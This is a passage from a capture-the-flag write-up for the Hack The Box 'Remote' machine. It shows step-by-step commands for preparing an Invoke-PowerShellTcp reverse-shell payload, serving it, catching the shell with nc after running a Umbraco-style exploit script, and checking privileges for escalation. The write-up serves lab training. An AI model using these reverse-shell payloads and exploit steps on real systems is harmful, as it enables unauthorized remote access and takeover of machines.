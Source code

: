 ```bash
└─$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.4 -Port 4444" >> Invoke-PowerShellTcp.ps1
```
Now we are ready to execute the attack:
Once we launch our modified ```49153.py```, is going to use powershell from the victim machine, reach to out malicious webserver on port 80, download the malicious ps1 file and execute it, so we will catch a reverse shell on port 4444.

# Foothold

Start a webserver on port 80 (or the one used in the payload)

```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start a listener on port 4444 (or the one used in the payload)

```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
```

Launch the python exploit
```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ python3 46153.py -u 'admin@htb.local' -p 'bacon*********' -i 'http://10.10.10.180' -c whoami
Start
[]
End

```
```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.180] 49700
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>

```
Check the nc listener for the reverse shell, we are now ```inetsrv```

# Privilege Escalation

```bash
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```